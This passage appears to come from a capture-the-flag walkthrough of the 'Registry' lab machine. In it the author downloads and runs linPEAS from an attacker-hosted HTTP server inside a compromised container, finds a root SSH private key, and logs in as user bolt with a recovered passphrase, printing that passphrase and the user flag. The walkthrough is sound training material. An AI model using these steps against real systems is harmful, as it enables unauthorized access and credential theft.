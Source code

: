 But no, this is just a local docker. but we can search the box for any interesting files. We can use `linPeas.sh` [https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh](https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh).
For that we actually need to install wget in the docker : `apt install wget`. On our local machine we can use python for creating a HTTP server (`python -m SimpleHTTPServer`) and we can download the script in the docker.

```sh
root@1abe759b82f6:/# wget http://10.10.15.93:8000/linpeas.sh
--2020-04-02 18:03:09--  http://10.10.15.93:8000/linpeas.sh
Connecting to 10.10.15.93:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 160486 (157K) [text/x-sh]
Saving to: 'linpeas.sh'
linpeas.sh    0%       0  --.-KB/s       linpeas.sh  100% 156.72K  --.-KB/s    in 0s
2020-04-02 18:03:09 (570 MB/s) - 'linpeas.sh' saved [160486/160486]
```

And we run it. I won't put all the output, just what I think might be of interest.

```sh
root@1abe759b82f6:/# sh linpeas.sh

[...]

[+] Looking for ssl/ssh files
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/.ssh/known_hosts
Private SSH keys found!:
/root/.ssh/id_rsa
 --> Some home ssh config file was found
/root/.ssh/config
Host registry
  User bolt
  Port 22
  Hostname registry.htb

[...]
```

So we have an `id_rsa`  file and its public key. Looking at the public key we see that it finishes with  `...9asjSpIT5Bmow== bolt@registry.htb` which suggests that this ssh key is not actually for root but maybe for bolt user. We also have the password we found earlier. let's try sshing with those:

```sh
root@1abe759b82f6:~/.ssh# ssh -i id_rsa bolt@10.10.10.159
Enter passphrase for key 'id_rsa': GkOcz221Ftb3ugog
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Thu Apr  2 16:08:12 UTC 2020

  System load:  0.04              Users logged in:                1
  Usage of /:   5.6% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 30%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    171
Last login: Thu Apr  2 15:57:09 2020 from 10.10.15.124
bolt@bolt:~$ id
uid=1001(bolt) gid=1001(bolt) groups=1001(bolt)
bolt@bolt:~$ cat user.txt
ytc0ytdmnzywnzgxngi0zte0otm3ywzi
```
